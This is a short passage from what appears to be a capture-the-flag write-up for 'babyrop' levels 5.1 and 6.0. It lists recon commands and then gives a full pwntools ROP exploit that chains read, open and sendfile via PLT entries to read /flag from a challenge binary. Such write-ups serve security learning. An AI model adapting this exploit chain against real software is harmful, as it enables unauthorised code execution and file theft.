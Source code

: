 ## level 5.1

Prev solution works

## level 6.0

Now, we don't have a `syscall` gadget

- `checksec /challenge/babyrop_level6.0` -> RELRO: Partial -> PLT exists
- `objdump -d /challenge/babyrop_level6.0 | grep "@plt"` -> get addresses of PLT functions
- `objdump -s -j .bss /challenge/babyrop_level6.0` -> get address of .bss section
- `ROPgadget --binary /challenge/babyrop_level6.0` -> get addresses of gadgets
- GDB -> get offset

```python
from pwn import *

p = process('/challenge/babyrop_level6.0')

offset = 0x68
pop_rdi = 0x401b98  # pop rdi; ret
pop_rsi = 0x401b90  # pop rsi; ret
pop_rdx = 0x401ba0  # pop rdx; ret
pop_rcx = 0x401b88  # pop rcx; ret
read_plt = 0x401160
open_plt = 0x4011d0
sendfile_plt = 0x4011a0
bssaddr = 0x4040a0

flag_path = b'/flag\x00'
size = 64 

payload = b'A' * offset

# read(stdin, bssaddr, len(flag_path))
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bssaddr)
payload += p64(pop_rdx) + p64(len(flag_path))
payload += p64(read_plt)

# open("/flag", O_RDONLY)
payload += p64(pop_rdi) + p64(bssaddr)
payload += p64(pop_rsi) + p64(0)
payload += p64(open_plt)

# sendfile(stdout, fd, 0, size)
payload += p64(pop_rdi) + p64(1)           
payload += p64(pop_rsi) + p64(3)           
payload += p64(pop_rdx) + p64(0)           
payload += p64(pop_rcx) + p64(size)        
payload += p64(sendfile_plt)               

p.sendline(payload)
p.sendline(flag_path)
p.interactive()
```
